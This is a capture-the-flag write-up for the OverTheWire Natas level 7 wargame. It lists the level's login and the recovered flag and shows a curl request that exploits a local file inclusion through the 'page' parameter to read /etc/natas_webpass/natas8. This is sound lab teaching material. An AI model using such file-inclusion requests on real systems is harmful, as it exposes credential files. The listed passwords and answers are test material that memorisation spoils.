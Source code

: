 # Natas7

*	user: `natas7`
*	pass: `7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`
*	url: `http://natas7.natas.labs.overthewire.org`
*	flag: `DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`

## Procedure

1.	Page provides `Home` and `About` that link to

		http://natas7.natas.labs.overthewire.org/index.php?page=home

	and

		http://natas7.natas.labs.overthewire.org/index.php?page=about

	By taking a look in the source code there is the hint

		<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

2.	Let's try to pass `/etc/natas_webpass/natas8` path as `page` value

		$ curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
		<html>
		<head>[...]</head>
		<body>
		<h1>natas7</h1>
		<div id="content">

		<a href="index.php?page=home">Home</a>
		<a href="index.php?page=about">About</a>
		<br>
		<br>
		DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

		<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
		</div>
		</body>
		</html>
